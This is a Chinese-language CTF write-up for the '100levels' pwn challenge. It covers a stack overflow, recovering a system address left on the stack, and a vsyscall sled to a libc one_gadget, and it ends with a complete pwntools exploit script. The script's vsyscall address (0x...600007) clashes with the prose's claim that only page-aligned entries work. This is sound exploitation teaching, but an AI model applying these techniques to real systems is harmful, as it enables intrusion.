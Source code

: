 # 100levels WP

拿到题目先看防护机制  

![](./index_files/1.png)    

发现开了PIE，这是最让人头痛的防护机制，这就意味着我们需要想办法获得一个libc中的函数的地址才行。接着分析程序逻辑   

![](./index_files/2.png)  

程序有两个主要模块，一个游戏模块，一个提示模块。游戏模块是进行两次输入，然后将两次的值相加，得出你需要进行的游戏关卡数，同时这个关卡数最大不超过100。hint模块则是判断hint_flag这个全局变量，为1则输出system函数的运行时地址。但是hint_flag始终为0，所以可以考虑修改这个值来获得system函数地址。   

![](./index_files/3.png)    

![](./index_files/3.png)    

![](./index_files/4.png)    

分析游戏模块，可以很明显地看到有一个栈溢出的点   

![](./index_files/5.png)    

但是苦于PIE，而且游戏一旦开始，无论输赢最后都会结束进程，完全想不到任何对栈攻击的方法，所以只能将希望寄托于hint模块，先想办法获取system函数的地址。因为hint_flag是在堆上，又没有想到什么针对堆的输入，所以放弃这里。    

接下来就是很关键的一点了，这里的漏洞不分析汇编代码是看不出来的。   

![](./index_files/6.png)    

通过分析hint模块，我们发现无论hint_flag的值为多少，system函数的地址都会被存放在栈上rbp+110的地方上，就是说栈上是有system函数的地址的。这就很好了，就是说通过栈我们有办法获得需要的东西，不再是像前面那样毫无想法了。   

然后我们再返回去看game模块

![](./index_files/7.png)    

然后我们回忆下程序的调用流程，我们完全可以这样调用：menu->call hint()->ret menu->call game()     

这样一来，game与hint的栈帧将一样，也就是说，game模块的rbp+110偏移处的值将会是hint模块的rbp+110偏移处的值。也就是说，system函数的地址将被固定在game模块的栈中！！这就很好了，因为虽然hint模块没有再次调用函数，也就是没有办法通过栈溢出ret到system函数的位置，但是game模块调用了play()函数，而且play函数中有栈溢出的漏洞可以利用 。    

然后接下来的问题就变成了怎么利用这个栈上的system函数地址。这里可以想到系统滑板。      

先把这个栈上的大概内容整理一下   

![](./index_files/8.png)     

初步的想法是直接返回到system函数处，但是这个system函数并不在play函数的ret处，所以需要借助一个滑板滑到sys_addr处。这里就可以用到vsyscall()来充当这个滑板。   

现代的Windows/*Unix操作系统都采用了分级保护的方式，内核代码位于R0，用户代码位于R3。许多对硬件和内核等的操作都会被包装成内核函数并提供一个接口给用户层代码调用，这个接口就是我们熟知的int 0x80/syscall+调用号模式。当我们每次调用这个接口时，为了保证数据的隔离，我们需要把当前的上下文(寄存器状态等)保存好，然后切换到内核态运行内核函数，然后将内核函数返回的结果放置到对应的寄存器和内存中，再恢复上下文，切换到用户模式。这一过程需要耗费一定的性能。对于某些系统调用，如gettimeofday来说，由于他们经常被调用，如果每次被调用都要这么来回折腾一遍，开销就会变成一个累赘。因此系统把几个常用的无参内核调用从内核中映射到用户空间中，这就是vsyscall。     

vsyscall的地址并不受PIE的影响，始终在0xffffffffff600000-0xffffffffff601000处，而且总共有三个，从低地址到高地址分别是gettimeofday, time和getcpu。     

![](./index_files/9.png)![](./index_files/10.png)![](./index_files/11.png)   

但是需要注意的是，vsyscall执行时会进行检查，如果不是从函数开头执行的话就会出错。因此，我们唯一的选择就是利用0xffffffffff600000, 0xffffffffff600400, 0xffffffffff600800这三个地址。因为这三个位置是死的，所以我们就用这三个来做滑板，滑到sysaddr那里。     

分析栈布局，构造我们的exp。     

![](./index_files/12.png)   

![](./index_files/13.png)   

![](./index_files/14.png)   

这里需要注意，我们这样相当于会把sys_addr和第二次输入的值相加得到最终的关卡数，上限是100。所以我们后面还要完成99次的答题，然后在最后一次实现栈溢出。但是还有一点就是，这里我们只有system的地址，还没有放好参数。但是想要放好参数有需要直到程序的加载地址，以构造ROP链。所以我们干脆不调用system函数，直接调用libc中的one_gadget。所以还需要计算system函数的地址和one_gadget的地址之差，然后令其加和。      

![](./index_files/15.png)    

最后写出exp      

```python
from pwn import *

context.log_level = True

p = process('./100levels')
#p = remote('111.198.29.45', 53167)
elf = ELF('./100levels')

one_gadget = 0x45216
sys_addr = 0x45390
offset = one_gadget - sys_addr
vsys_addr = 0xffffffffff600007

def hint():
    print p.recvuntil("Choice:\n")
    p.sendline('2')
    print p.recvuntil('NO PWN NO FUN\n')

def play():
    print p.recvuntil('Question: ')
    a = p.recvuntil(' ')
    a = a[:-1]
    a = int(a, 10)
    print p.recvuntil('* ')
    b = p.recvuntil(' ')
    b = b[:-1]
    b = int(b, 10)
    print p.recvuntil('Answer:')
    p.sendline(str(a * b))
    
def boom():
    payload = 'a' * 0x30 + 'a' * 8 + p64(vsys_addr) * 3
    print p.recvuntil('Answer:')
    p.send(payload)

def game():
    print p.recvuntil("Choice:\n")
    p.sendline('1')
    print p.recvuntil('How many levels?\n')
    p.sendline('-1')
    print p.recvuntil('Any more?\n')
    p.sendline(str(offset))
    print p.recvuntil("Let's go!'\n")
    for i in range(99):
        play()
    boom()
    p.interactive()

if __name__ == "__main__":
    hint()
    game()
```

